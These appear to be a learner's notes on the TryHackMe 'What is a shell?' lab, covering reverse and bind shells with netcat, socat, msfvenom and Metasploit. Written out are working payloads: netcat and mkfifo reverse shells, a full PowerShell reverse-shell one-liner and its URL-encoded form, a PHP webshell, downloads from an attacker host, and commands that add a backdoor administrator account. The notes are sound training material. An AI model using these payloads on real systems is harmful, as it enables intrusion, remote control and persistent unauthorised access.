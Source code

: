 ```yaml
---

# What is a shell? - Try Hack Me room

---
```


## Objective 

- An introduction to sending and receiving (reverse/bind) shells when exploiting target machines

**Shells** 
- are what we use when interfacing with a Command Line environment (CLI).
- the common bash or sh programs in Linux are examples of shells, as are cmd.exe and Powershell on Windows.
- When targeting remote systems it is sometimes possible to force an application running on the server (such as a webserver, for example) to execute arbitrary code.
- When this happens, we want to use this initial access to obtain a shell running on the target.

**In simple terms, we can force the remote server to either send us command line access to the server (a reverse shell), or to open up a port on the server which we can connect to in order to execute further commands (a bind shell).**

---

<details>
<summary>Tools</summary>

- variety of tools we can use to receive reverse shells and to send bind shells
- we need malicious shell code and a way of interfacing with the resulting shell

---

## Netcat 

- used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration
- but more importantly it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system
- Netcat shells are very unstable (easy to lose) by default
- but can be improved by techniques

---

## Socat

- like netcat on steroids
- can do all the same things and many more
- socat shells usually more stable than netcat shells out of the box
- so in this sense its superior to netcat but there are 2 big catches:
1. the syntax is more difficult
2. netcat is installed on virtually every Linux distribution by default, socrat rarely installed by default

- Both Socat and Netcat have .exe versions for use on Windows

---

## Metasploit -- multi/handler

- `exploit/multi/handler` module of metasploit used to receive reverse shells
- part of the Metasploit framework so multi/handler provides fully-fledged way to obtain stable shells
- with a wide variety of options to improve the caught shell
- also the only way to interact with a meterpreter shell
- easiest way to handle staged payloads

---

## Msfvenom 

- technically part of the Metasploit Framework but it is shipped as a standalone tool
- Msfvenom is used to generate payloads on the fly
- msfvenom can generate payloads other than reverse and bind shells

---

- there are some repositories of shells in many different languages
- most prominent of these is Payloads all the Things.
- PentestMonkey Reverse Shell Cheatsheet is also commonly used
- Kali Linux also comes pre-installed with a variety of webshells located at `/usr/share/webshells`
- SecLists repo, though primarily used for wordlists, also contains some very useful code for obtaining shells

</details>

<details>
<summary>Types of Shell</summary>

- At a high level, we are interested in two kinds of shell when it comes to exploiting a target

**reverse shells**

- when the target is forced to execute code that connects back to your computer
- On our computer we would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection
- reverse shells =  good way to bypass firewall rules that may prevent us from connecting to arbitrary ports on the target
- but when receiving a shell from a machine across the internet, we would need to configure our own network to accept the shell
- not a problem on TryHackMe network due to the method by which we connect into the network

**Bind shells**

- when the code executed on the target is used to start a listener attached to a shell directly on the target
- then be opened up to the internet -> so can connect to the port that the code has opened and obtain remote code execution that way
-  has the advantage of not requiring any configuration on our own network
- but may be prevented by firewalls protecting the target

**generally reverse shells are easier to execute and debug**

---

## Reverse shell example:


- left = reverse shell listener -> this is what receives the connection
- right = simulation of sending reverse shell
- more likely to be done through code injection on remote websites
- think of the left being our computer and right being the target

<img width="1051" height="156" alt="image" src="https://github.com/user-attachments/assets/d516d053-93f8-45e9-b824-15daeaf9603e" />

-> attacking machine: `sudo nc -lvnp 443`(run listener)

-> target: `nc <LOCAL-IP> <PORT> -e /bin/bash`(netcat)

- after running command on right, listener recevies a connection
- when `whoami` is run -> we see we are executing commands as the target user
- **we are listening on our own attacking machine and sending a connection from the target**

---

## Bind shell example:

- left = attacker's computer
- right = stimulated target
- windoes target this time
- first start listener on target -> this time also telling it execute `cmd.exe`
- then with listener up and running - connect from our own machine to newly opened port


<img width="1327" height="207" alt="image" src="https://github.com/user-attachments/assets/2c291ff5-a824-4806-bc9f-5b36d617b7e3" />


-> on the target: `nc -lvnp <port> -e "cmd.exe"`

-> on attacking machine: `nc MACHINE_IP <port>`

- gives us code execution on the remote machine. Note -> not specific to Windows

---

## Interactivity 

- Shells can be either interactive or non-interactive

**Interactive shell**

- Powershell, Bash, Zsh, sh, or any other standard CLI environment
- these allows us to interact with programs after executing them
- example take SSH login prompt:

<img width="621" height="82" alt="image" src="https://github.com/user-attachments/assets/75a18e31-7bbf-4ba1-b224-a9a24c2113be" />

- can see it's asking interactively that the user type either yes or no in order to contiue connection
- this is an interactive program, which requires an interactive shell in order to run

**Non-interactive shell**

- limited to using programs which do not require user interaction in order to run properly
- majority of simple reverse and bind shells are non-interactive -> can make further exploitation trickier
- run SSH in a non-interactive shell:

<img width="492" height="210" alt="image" src="https://github.com/user-attachments/assets/fe5431d8-70f8-477c-8611-e9dcb51f248c" />

- `whoami` command (which is non-interactive) executes perfectly
- `ssh` command (which is interactive) gives us no output at all
- output of an interactive command does go somewhere but figuring out where is an exercise for you to attempt on your own

**interactive programs do not work in non-interactive shells**

- `listener` command is an alias unique to the attacking machine used for demonstrations
- it's shorthand way of typing `sudo rlwrap nc -lvnp 443`
- will not work on any other machine unless the alias has been configured locally

--- 

<img width="477" height="137" alt="image" src="https://github.com/user-attachments/assets/af519399-002f-4cc6-afd7-9e9020d57748" />

</details>

<details>
<summary>Netcat</summary>

## Reverse shells

- reverse shells require shellcode and a listener
- many ways to execute a shell so we'll start by looking at listeners

- syntax for starting netcat listener using linux: `nc -lvnp <port-number>`

   - `-l` tell netcat that this will be a listener
   - `-v` request verbose output
   - `-n` tells netcat not to resolve host names or use DNS
   - `-p` indicates the port specification will follow  

- realistically cab use any port we like as long as there isn't already a service using it
- if we choose a port beow 1024 will need to use `sudo` when starting listener
- good idea to use well known port (80, 443 or 53 being good choices) -> more likely to get past outbound firewall rules on the target

-> working example = `sudo nc -lvnp 443`

- can then connect back to this with any number of payloads depending on environment on the target  - example in previous task

## Bind shells 

- if looking to obtain a bind shell on target we can assume that there is already a listener waiting fod us on choosen port of the target - all we need to do is connect to it
- syntax = `nc <target-ip> <chosen-port>`
- here we are using netcat to make an outbound connection to the target on our chosen port
- here it is important to understand how to connect to a listening port using netcat

--- 

<img width="479" height="91" alt="image" src="https://github.com/user-attachments/assets/0f7c34f2-0d89-4423-afd7-7668fb109171" />

</details>

<details>
<summary>Netcat shell Stabilisation</summary>

- we have caught or connected to a netcat shell, what's next?
- these shells are unstable by default
- ctrl+c = kills the whole thing
- non-interactive and often have formatting errors -> due to netcat "shells" really being processes running inside a terminal rather (rather than being bonafide terminals in their own right)
- there are many ways to stabilise netcat shells on Linux systems
- Stabilisation of Windows reverse shells = harder

---

## Technique 1: Python

- applicable only to Linux boxes as nearly always by default have python installed
- 3 stage process:

1. use `python -c 'import pty;pty.spawn("/bin/bash")'`

     - this uses python to spawn a better feature bash shell.
     - some targets may need the version of Python specified (if so replace `python` with `python2`, `python3` etc.)
     - rn our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell

2. `export TERM=xterm` -> gives us access to term commands like `clear`
3. background the shell using Ctrl + Z

     -  Back in our own terminal we use `stty raw -echo; fg`
     -  this turns off our own terminal echo (gives us access to tab autocompletes, arrow keys, ctrl+c to kill processes)
     -  then foregrounds the shell -> completing the process
  
<img width="664" height="385" alt="image" src="https://github.com/user-attachments/assets/4b1069cc-7d52-456e-9938-5a4d908ea6d4" />

- if shell dies, any input in our own terminal will not be visible (result of having disabled terminal echo). fix this -> type reset and press enter.

---

## Technique 2: rlwrap

- rlwrap -> program that gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell
- but some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell
- rlwrap not installed by default on Kali, so first install it with `sudo apt install rlwrap`

-> To use rlwrap, we invoke a slightly different listener: `rlwrap nc -lvnp <port>`

- prepending our netcat listener with "rlwrap" -> gives more fully featured shell
- technique is useful when dealing with Windows shells -> otherwise notoriously difficult to stabilise
- when dealing with Linux target it's possible to comepletely stabilise by using same trick in step 3 of previous technique
- background with ctrl+z then using `stty raw -echo; fg` to stabilise and re-enter the shell

---

## Technique 3: Socat

- use an initial netcat shell as a stepping stone into a more fully-featured socat shell
- this technique is limited to Linux targets (Socat shell on Windows will be no more stable than a netcat shell)



- first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine.
- typical way to achieve this -> using a webserver on the attacking machine inside the directory containing your socat binary `sudo python3 -m http.server 80`
- then on target machine using netcat shell to download the file - on linux accomplished with curl or wget: `wget <LOCAL-IP>/socat -O /tmp/socat`



- for sake of completeness: in windows CLI environment same can be done with powershell using either Invoke-WebRequest or a webrequest system class
- depending on version of powershell installed `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`
- will cover syntax for sending and receiving shells with Socat in upcoming tasks

---

- with any of above techniques useful to be able to change terminal tty size
- this is something your terminal will do automatically when using a regualar shell but must be done manually in a reverse or bind shell if we want something like a text editor -> overwrites everything on the screen

-> first open another terminal and run `stty -a` - will give us large stream of output - note values for "rows" and columns


<img width="995" height="65" alt="image" src="https://github.com/user-attachments/assets/25524b25-66f5-496a-b506-b3906d0e0269" />

- next in reverse/bind shell type: `stty rows <number>` and `stty cols <number>`
- Filling in the numbers we got from running the command in our own terminal
- will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open

---


<img width="477" height="107" alt="image" src="https://github.com/user-attachments/assets/8c76d132-49eb-4c4a-9ac6-2f7f14b8360c" />

</details>

<details>
<summary>Socat</summary>

- a connector between two points
- this essentially be a listening port and the keyboard but it could also be a listening port and a file, or indeed, two listening ports
- All socat does is provide a link between two points

## Reverse shells 

- syntax for a basic reverse shell listener in socat: `socat TCP-L:<port> -`
- always with socat, this is taking two points (a listening port, and standard input) and connecting them together
- resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`

On Windows use to connect back: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

- The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output

equivalent command for a Linux Target: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

---

## Bind shells

-  Linux target we would use: `socat TCP-L:<PORT> EXEC:"bash -li"`
-  Windows target we would use `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
-  use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment

-> regardless of the target, we use this command on our attacking machine to connect to the waiting listener: `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

---

## one of the more powerful uses for Socat: a fully stable Linux tty reverse shell

- only work when the target is Linux, but is significantly more stable
- new listener syntax: `socat TCP-L:<port> FILE:`tty`,raw,echo=0`

   -  we're connecting two points together
   -  this case -> listening port and a file
   -  we are passing in the current TTY as a file and setting the echo to be zero
   -  approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.
 
- first listener can be connected to with any payload but this special listener must be activated with a very specific socat command
- means the target must have socat installed
- most machines do not have socat installed by default but it's possible to upload precompiled socat binary -> can then be executed as normal

   - special command: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
       
        - first part -- we're linking up with the listener running on our own machine
        - second part of the command creates an interactive bash session with `EXEC:"bash -li"`

- also passing the arguments: pty, stderr, sigint, setsid and sane:

   - **pty** allocates a pseudoterminal on the target -- part of the stabilisation process
   - **stderr** makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
   - **sigint** passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
   - **setsid** creates the process in a new session
   - **sane** stabilises the terminal, attempting to "normalise" it
 
  <img width="1247" height="173" alt="image" src="https://github.com/user-attachments/assets/2c9367f3-ad9b-45a1-acf2-182020b86165" />

- left = listener running on local attacking machine
- right = have simulation of a compromised target running with a non interactive shell
- using non-interactive netcat shell we execute the special socat command and receive fully interactive bash shell on the socat listener to the left
- socat shell is fully interactive, allowing us to use interactive commands such as SSH.
- can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

---

- if any point socat shell not working correctly worth increasing verbosity by adding `-d -d` into command
- very useful for experimental purposes but not usually necessary for general use

---

<img width="476" height="68" alt="image" src="https://github.com/user-attachments/assets/3d571a29-6f30-4031-b80d-44aeefd93a17" />


</details>

<details>
<summary>Socat Encrypted Shells</summary>

- socat capable of creating encrypted shells -- both bind and reverse
- encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result
- in previous task any time `TCP` was used as part of a command should be replaced with `OPENSSL` when working with encrypted shells

->  first need to generate a certificate in order to use encrypted shells easiest to do on our attacking machine:

     openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

- command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year
-  it will ask you to fill in information about the certificate -> can be left blank or filled randomly

-> then need to merge the two created files into a single `.pem` file:

    cat shell.key shell.crt > shell.pem

-> then  we set up our reverse shell listener

    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

- This sets up an OPENSSL listener using our generated certificate
- `verify=0`
- tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority
- note that the certificate must be used on whichever device is listening.

-> To connect back

     socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

-> target:

     socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

-> attacker:

     socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -

-  note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required
- following image shows an OPENSSL Reverse shell from a Linux target
- target = right attacker = left:

<img width="1852" height="704" alt="image" src="https://github.com/user-attachments/assets/a131be7e-6785-4f2e-bea4-377da76e20c0" />

-  technique will also work with the special, Linux-only TTY shell covered in the previous task
-  figuring out the syntax for this will be the challenge for this task

--- 

<img width="479" height="106" alt="image" src="https://github.com/user-attachments/assets/745b4702-e85e-4164-9f18-e79c18599521" />

</details>

<details>
<summary>Common Shell Payloads</summary>

- take a look at some common payloads using the tools we've already covered

---

## ways to use netcat as a listener for a bindshrll 

- in some version of netcat (including `nc.exe` windows version included with kali at `/usr/share/windows-resources/binaries` and the version used in kali itself: `netcat-traditional`)
- `-e` allows us to execute a process on connection
- e.g. as a listener:

    nc -lvnp <PORT> -e /bin/bash


- connecting to above listener with netcat results in bind shell on the target
- for reverse shell connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` = results in reverse shell on the target

- but this is not included in most versions of netcat as it's seen to be insecure

-> on windows where static binary nearly always required anyway this technique works perfectly 

- linux we would instead use this code to create listener for a bind shell

      mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f


<img width="1228" height="121" alt="image" src="https://github.com/user-attachments/assets/be401a6a-58b6-4b27-a2a7-130cef923a85" />

- similar command can be used to send netcat reverse shell

       mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

<img width="439" height="77" alt="image" src="https://github.com/user-attachments/assets/caec41fd-0865-40aa-a2c9-ab0afecf7b87" />

- uses the netcat connect syntax as opposed to netcat listen syntax


<img width="1407" height="150" alt="image" src="https://github.com/user-attachments/assets/22dbb846-be92-463c-bee2-63f5e29291da" />

---

- when targeting a modern Windows Server it's very common to require a Powershell reverse shell
- we will cover the standard one-liner PSH reverse shell here

      powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)

- this command (once putting IP and port)  can be copied into cmd.exe shell (or another method of executing commands on a window server such as a webshell) and executed resulting in reverse shell:

<img width="1008" height="310" alt="image" src="https://github.com/user-attachments/assets/7a908df5-8e9f-49a5-9dc5-a75e3176672b" />

---

-  PayloadsAllTheThings is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting)
-  in many different languages

---

<img width="428" height="141" alt="image" src="https://github.com/user-attachments/assets/447035aa-2f73-4790-bbde-bfcf8816ff8b" />

</details>

<details>
<summary>msfvenom</summary>

**Msfvenom: the one-stop-shop for all things payload related.**

- part of metasploit framework
- msfvenom -> used to generate code for primarily reverse and bind shells
- used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit
- can be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`)

-> standard syntax for msfvenom

      msfvenom -p <PAYLOAD> <OPTIONS>


-> example 
- to generate windows x64 reverse shell in an exe format we can use:

     msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>


<img width="852" height="124" alt="image" src="https://github.com/user-attachments/assets/98609a04-8745-4f7a-861b-9eb66cf43783" />

-> here we are using a payload and four options

- -f (format)

   - specifies the output format - this case it's an executable (exe)

- -o (file)

   - output location and filename for generated payload
 
- LHOST= IP

   - specifies IP to connect back to. when using THM this is our tun0 IP address, if unable to load link then we are not connected to the vpn
 

- LPORT= port

    - port on local machine to connect back to. can be anything between 0 and 65535 that's not already in use. ports below 1024 are restricted and require a listener running with root privileges
 

  ---

  ## Staged vs Stageless

- there are staged reverse shell payloads and stageless reverse shell payloads

**staged payloads**

- sent in 2 parts. first small stager then main payload is fetched loaded into memory
- piece of code executed directly on server itself.
- connects back to waiting listener - doesn't contain any reverse shell code by itself.
- it connects to the listener and uses the connection to load real payload - executing it directly preventing it from touching the disk (where it could be caught by traditional anti virus solutions)
- so payload is split into 2 parts - small initial stager then bulkier reverse shell code (downloaded when stager is activated)
- staged payloads require special listener - usually metasploit multi/handler

**stageless payloads**

- more common
- are entirely self-contained -> there is one pieve of code that when executed sends a shell back immediately to waiting listener

---

stageless payloads tend to be easier to use and catch 
but are also bulkier and easier for antivirus or intrusion detection program to discover and remove 
staged = harder to use but initial stager is a lot shorter snd sometimes missed by less-effective antivirus software 
some  antivirus solutions make use of Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager -> making staged payloads less effective than they would once have been in this area

---

## Meterpreter 

- Meterpreter shells are Metasploit's own brand of fully-featured shell
- are completely stable = very good thing when working with Windows targets
- also have a lot of inbuilt functionality

      - like file uploads and downloads

- want to use any of Metasploit's post-exploitation tools = need to use a meterpreter shell
- downside = must be caught in Metasploit

---

## Payload naming conventions 

- with msfvenom it's important to understand how naming system works 

-> basic convention is: 

     <OS>/<arch>/<payload>

-> for example:

      linux/x86/shell_reverse_tcp

- this would generate a stageless reverse shell for an x86 Linux target
- the arch is not specified for windows 32bit targets e.g.

      windows/shell_reverse_tcp

- for 64bit windows target arch would be specified (x64)
- `shell_reverse_tcp` -> indicates it's stageless payload
- b/c stageless payloads are denoted with underscores (`_`)

-> staged payloads denoted with another `/`

      shell/reverse_tcp

- rule also applies to meterpreter payloads


-> windows 64bit staged meterpreter:

        windows/x64/meterpreter/reverse_tcp

-> linux 32bit stageless meterpreter payload:

        linux/x86/meterpreter_reverse_tcp

---

      msfvenom --list payloads 

- can be used to list all available payloads
- can then be piped into `grep` to search for specific of payloads

<img width="1320" height="254" alt="image" src="https://github.com/user-attachments/assets/0c1c151d-c705-48b4-a2de-589c50ffd14b" />

- gives us full set of Linux meterpreter payloads for 32bit targets

---

<img width="842" height="152" alt="image" src="https://github.com/user-attachments/assets/9d8e1555-bf4f-4633-b043-841a3d1e3fb5" />

</details>

<details>
<summary>Metasploit multi/handler</summary>

- multi/handler = tool for catching reverse shells
- essential if want to use meterpreter shells
- the go-to whne using staged payloads

1. open metasploit `mfsconsole`
2. type `use multi/handler` and press enter

- now are primed to start multi/handler session
- `options` can look at available options

<img width="719" height="384" alt="image" src="https://github.com/user-attachments/assets/b76997f5-315f-4333-8e24-069f7a0adb05" />

- 3 options we must set: payload, LHOST and LPORT
- identical to the options we set when generating shellcode with msfvenom - payload specific to our target as well as listening address and port we can receive a shell with
- LHOST must be specified here b/c metasploit won't listen on all network interfaces like etcat or socat will
- must be told a specific address to listen with

-> set options with

- `set PAYLOAD` 
- `set LHOST` (listen-adress)
- `set LPORT` (listen-port)

-> should now be ready to start listener 

- using `exploit -j`
- tells metasploit to launch the module
- running as a Job in the background

<img width="750" height="663" alt="image" src="https://github.com/user-attachments/assets/339e51ca-b44b-43e6-a432-675eb45d99f0" />

- in above example = metasploit listening on port under 1024 = metasploit must run with sudo permissions
- staged payload generated in the previous is run = Metasploit receives the connection ->  sending the remainder of the payload and giving us a reverse shell:


<img width="878" height="201" alt="image" src="https://github.com/user-attachments/assets/f58410cb-a8f8-4ff1-b07a-2e9122e049bf" />

- because the multi/handler was originally backgrounded, we needed to use `sessions 1` to foreground it again
- works as it was the only session running
-  other sessions active = use `sessions` -> see all active sessions
-  then use `sessions <number>` -> to select appropriate session to foreground


---

<img width="437" height="182" alt="image" src="https://github.com/user-attachments/assets/d2093ac5-3f42-4f7e-8a0f-f21847a2cb77" />

</details>

<details>
<summary>WebShells</summary>

- we may encounter websites that allow us to upload an executable file
- we use this oppotunity to upload code that would activate a reverse or bind shell
- sometimes not possible -> instead upload webshell

-> webshell = colloquial term for a script thst runs inside a webserver (usually in PHP or ASP) -> which executes code on the server 

- essentially commands are entered into a webpage - either HTML form or directly as arguments in the URL - then are executed by the script with results returned and written on the page
- useful if there are firewalls in place or even a stepping stone into fully fledged reverse or bind shell

-> PHP = most common server side scripting language

- one line format:
 
        <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

  - this takes a GET parameter in URL and executes it on the system with `shell_exec()`
  - basically any commands we enter in the URL after `?cmd=` executed on the system - windows or linux
  - "pre" elements ensure the results are formatted correctly on the page
 
-> in action:

    <img width="899" height="473" alt="image" src="https://github.com/user-attachments/assets/271a331a-9ffa-4cca-b6f3-c5d486830b59" />

- when navigating the shell we used GET parameter "cmd" with command "ifconfig" -> this returned network info of the box
- a.k.a by entering `ifconfig` (used to check the network interfaces on Linux target) into URL of our shell it executed on the system with the results returned to us
- works for other commands like `whoami`, `hostname`, `arch` etc.

-> variety of webshells available on Kali by default at `/usr/share/webshells`

- most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers
- will not work on Windows by default

-> when target is windows often easiest to obtain RCE using a web shell or msfvenom to generate a reverse/bind shell in language of server 

- former method -> obtaining RCE is often done with a URL Encoded Powershell Reverse Shell
- would be copied into URL as 'cmd' argument:

         powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

  - same shell in task 8 but URL encoded to be used to safely in GET parameter
  - the IP and Port still need to be changed in above code


</details>

<details>
<summary>Next Steps</summary>

**We have the shell, now what?**

- covered how to generate, send and receive shells -> tend to be unstable and non-interactive

-> so what do we do about this?

## Linux 

- On Linux, gaining user-level access = usually first step. become a local user = can often escalate further from there.
- SSH keys in `/home/<user>/.ssh` are a common, high-value find — a private key lets you SSH in as that user from your machine (no password).
- In CTFs/labs, credentials (usernames/passwords, or private keys) are often left behind in files, scripts, configs, etc. Finding them can give quick access.
- Some vulnerabilities (e.g., Dirty COW) or writable system files (`/etc/passwd`, `/etc/shadow`) let us create or modify accounts -> can give SSH access if the SSH service is running.
- All of this only works = SSH actually running and reachable on the target (port 22 typically)

---
## Windows Post-Exploitation (Access & Persistence)

**credential discovery**

- registry: some applications store creds in plaintext/hashes in the registry

    - example: VNC servers often keep passwords in plaintext in the registry
 
- Config files: certain services save credentials in config files

    - FilleZilla FTP server (older versions)
 
      
        - `C:\Program Files\FileZilla Server\FileZilla Server.xml`
        - `C:\xampp\FileZilla Server\FileZilla Server.xml`
        - Depending on version → creds may be plaintext or MD5 hashes

---

**privilege goal**

- best case: obtain a shell as SYSTEM or Adminitrator account
- high privileges you can:

    - add own account (with admin right)
    - use it to connect via RDP, WinRM, SMB exec tools (`psexec`, `winexe`, etc.)

  ---

  **adding a user (persistence)**

1. create new user:

         net user <username> <password> /add

-> example:

         net user thmuser Passw0rd! /add

2. add user to the administrators group:

          net localgroup administrators <username> /add

-> example: 

         net localgroup administrators thmuser /add

---

**ways to log back in**

once account created (if the service is enabled/exposed)

- RDP (port 3389)
- WinRM (port 5985/5986)
- psexec (SMB-based remote exec)
- winexe (Linux tool for Windows command execution)
- Telnet (if running—rare in modern systems)
- Other exposed services


---

## important take away

- reverse and bind shells are essential technique for gaining remote code execution on a machine
- but they never be as fully featured as a native shell
- we always want to escalate into using a "normal" method for accessing the machine
- this will invariably be easier to use for further exploitation of the target 

</details>

<details>
<summary>Practice and Examples</summary>

- <img width="249" height="199" alt="image" src="https://github.com/user-attachments/assets/3bf4eb55-d600-4a26-9e55-b561e80e27c2" />


- <img width="251" height="281" alt="image" src="https://github.com/user-attachments/assets/8d47518c-5927-4dfb-871b-b158104b644c" />

---

- <img width="266" height="320" alt="image" src="https://github.com/user-attachments/assets/3c683b62-c334-40b6-b755-73d7e96e1402" />


- below is the exploit

<img width="377" height="125" alt="image" src="https://github.com/user-attachments/assets/64324ad9-9602-4a48-859e-213611d8c232" />

- add to desktop

<img width="398" height="430" alt="image" src="https://github.com/user-attachments/assets/0ad54f04-b41b-4407-88b5-49cba9f051e4" />

- put THM attack box IP in the reverse shell php

<img width="399" height="424" alt="image" src="https://github.com/user-attachments/assets/ca4d866b-7668-4834-820b-17db25870253" />

- now we set up netcat listener and upload and activate the shell on the Linux machine - command given in first question



- upload file (http://linuxip)

- <img width="435" height="323" alt="image" src="https://github.com/user-attachments/assets/fe346554-0d4a-4c7c-ae5d-22883a833b95" />
